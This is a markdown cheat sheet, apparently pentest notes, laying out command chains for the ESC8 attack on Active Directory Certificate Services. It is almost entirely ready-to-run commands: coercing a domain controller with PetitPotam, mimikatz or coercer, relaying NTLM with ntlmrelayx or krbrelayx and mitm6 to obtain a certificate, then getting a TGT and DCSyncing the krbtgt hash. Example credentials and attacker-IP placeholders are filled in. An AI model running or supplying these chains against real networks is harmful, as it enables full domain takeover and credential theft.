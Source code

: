 ```yaml
---
category: Uncategorized
tags: []
---
```

# General Overview: 
AD CS supports several HTTP-based enrollment methods if additional server roles are installed (Certificate enrollment web service). There are three methods that can test to abuse this technique.

An attacker can use PetitPotam to force a Domain Controller to relay its NTLM credentials to a target host. These credentials can then be forwarded to the Active Directory Certificate Services (AD CS) Web Enrollment pages, allowing the attacker to enroll for a Domain Controller certificate. This certificate can be used to request a Ticket Granting Ticket (TGT), enabling a Pass-the-Ticket attack that compromises the entire domain.

# # Abusing ESC8 Certificate Templates

## Scenario 1 (Certipy, NTLMrelayx, PetitPotman):
- certipy-ad relay -ca 172.21.1.1
- impacket-ntlmrelayx -t http://megacorpone.com/certsrv/csertfnsh.asp -smb2support --adcs --template 'Domain Controller'
- python3 PetitPotam -d megacorpone.com -u afsimmons -p Spawn123! 172.21.1.5 MEGACORP
## Scenario 2: 
- impacket-ntlmrelayx -t http://megacorpone.com/certsrv/csertfnsh.asp -smb2support --adcs --template 'Domain Controller'
- mimikatz> misc::efs /server:dc.lab.local /connect:172.21.1.5 /noauth
-  kekeo> base64 /input:on
- kekeo> tgt::ask /pfx:"BASE64-CERT-FROM-NTLMRELAY" /user:dc$ /domain:megacorpone.com /ptt
- mimikatz> lsadump::dcsync /user:krbtgt
## Scenario 4:
- sudo krbrelayx.py --target http://CA/certsrv -ip attacker_IP --victim target.domain.local --adcs --template Machine
- sudo mitm6 --domain domain.local --host-allowlist target.domain.local --relay CA.domain.local -v
## Scenario 5:
- Source: https://github.com/bats3c/ADCSPwn
- adcspwn.exe --adcs "cs server" --port [local port] --remote [computer]
- adcspwn.exe --adcs cs.megacorpone.com
- adcspwn.exe --adcs cs.megacorpone.com--remote dc.megacorpone.com--port 9001
- adcspwn.exe --adcs cs.megacorpone.com--remote dc.megacorpone.com --output C:\Temp\cert_b64.txt
- adcspwn.exe --adcs cs.megacorpone.com--remote dc.megacorpone.com--username megacorpone.com\afsimmons --password Spawn123! --dc dc.megacorpone.com
## Scenario 6: 
 - impacket-ntlmrelayx -t http://megacorpone.com/certsrv/csertfnsh.asp -smb2support --adcs --template 'Domain Controller'
 - python3 coercer.py <DC_IP> <YOUR_IP>
 - python3 getTGT.py -dc-ip <DC_IP> -pfx <CERT_FILE.pfx> -no-pass